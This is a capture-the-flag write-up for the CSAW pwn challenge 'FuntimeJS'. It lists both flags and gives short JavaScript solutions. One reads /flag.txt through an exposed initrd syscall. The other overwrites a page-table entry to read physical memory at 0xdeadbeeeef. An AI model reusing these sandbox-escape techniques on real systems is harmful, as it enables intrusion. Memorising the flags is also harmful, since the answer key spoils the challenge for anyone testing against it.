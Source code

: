# FuntimeJS (2 Parts)
## Author

## Points
400
## Category
Pwn
## Description
Part 2 of LittleQuery (Web)
JavaScript is memory safe, right? So you can't read the flag at physical address 0xdeadbeeeef, right?
Right?
http://littlequery.chal.csaw.io
UPDATE 14:10 Eastern: I'm dumb. The unintentional solution is now in a separate challenge (FuntimeJS 2).
## Flag
`flag{1_th0t_j@vascript_w@s_mem0ry_s@f3!}`
`flag{I_f0rg0t_1n1trd_1nclud3d_a11_files}`
## Solution
Part 1:
`console.log(__SYSCALL.initrdReadFile('/flag.txt'))`
Part 2:
```
let mem = __SYSCALL.getSystemResources().memoryRange
let view = (where) => new Uint8Array(mem.block(where, 0x100).buffer())
view(0x1a01000+0x41*8).set([0xeb,0x00,0xa0,0xad,0xde])
console.log(String.fromCharCode.apply(null, view((0x41<<21) + 0x1eeeef)))
```

